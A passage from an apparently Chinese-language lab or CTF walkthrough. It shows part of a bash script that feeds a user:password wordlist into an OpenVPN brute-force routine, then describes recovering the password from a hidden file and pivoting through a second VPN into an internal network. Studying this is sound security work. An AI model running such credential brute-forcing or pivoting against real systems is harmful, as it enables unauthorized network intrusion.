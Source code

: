```bash

	for vpn_file in $openvpn_binary_path $openvpn_config_file $dict_file
	do
		if [ ! -f "$vpn_file" ]
		then
			echo "$vpn_file : Dosyasi Sistemde Bulunamadi !!!"
			exit 3
		fi
	done


	cat $dict_file | while read -r line
	do
		user_name="`echo "$line" | cut -d ":" -f1`"
		password="`echo "$line" | cut -d ":" -f2`"

		result="`brute_force "$user_name" "$password"`"
		echo "$result"

		echo "$result" | grep -Eq "^ERROR"
		if [ $? -eq 0 ]
		then
			break
		fi	
	done
}



if [ ! $# -eq 2 ]
then
	echo "Kullanim: $0 <dict_file> <vpn_config_file>"
	exit 1
else
	dict_file="$1"
	openvpn_config_file="$2"

	main "$dict_file" 
fi
```

不过在`/var/tmp/.6469636d`中找到了`aut.txt`,和刚才爆破结果一样密码是`starswars`：

![Alt text](./1512070950168.png)

连接第二层openvpn,从`192.168.101.0/24`进入了`172.16.0.0`：
